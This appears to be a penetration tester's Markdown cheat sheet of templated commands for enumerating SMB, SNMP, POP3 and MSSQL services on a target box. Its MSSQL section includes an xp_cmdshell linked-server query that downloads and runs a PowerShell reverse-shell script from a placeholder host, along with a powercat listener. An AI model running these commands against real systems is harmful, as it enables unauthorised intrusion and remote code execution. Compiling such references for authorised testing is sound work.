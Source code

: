 ### enum4linux

```bash
enum4linux -a ${box_ip} | tee ${loc}/2-enum/enum4linux.md
```

### smb

```
netexec smb ${box_ip}
```

```
smbmap -H ${box_ip}
```

### SNMP

```bash
snmp-check ${box_ip}
```

### IMAP


### POP3

banner grabbing
```
nc -nv ${box_ip} 110
openssl s_client -connect ${box_ip}:110 -crlf -quiet

nc -nv ${box_ip} 995
openssl s_client -connect ${box_ip}:995 -crlf -quiet
```

connect
```
telnet ${box_ip} 110
USER john
PASS password
list
redr 1 (messange number or id)
```

### MSSQL Client

```bash
${imp_dir}/mssqlclient.py USER@${box_ip}
${imp_dir}/mssqlclient.py USER@${box_ip} -windows-auth
```

### MSSQL Enum

> https://0x4rt3mis.github.io/posts/Active-Directory-MSSQL-Server/

```
Get-SQLInstanceDomain

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell \'whoami\'" | ft
powercat -l -v -p 443 -t 1000

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell \'powershell iex (New-Object Net.WebClient).DownloadString(\'\'http://x.x.x.x/Invoke-PowerShellTCP.ps1\'\')\'" | ft
```

### Heidi SQL

> https://0x4rt3mis.github.io/posts/Active-Directory-MSSQL-HeidSQL/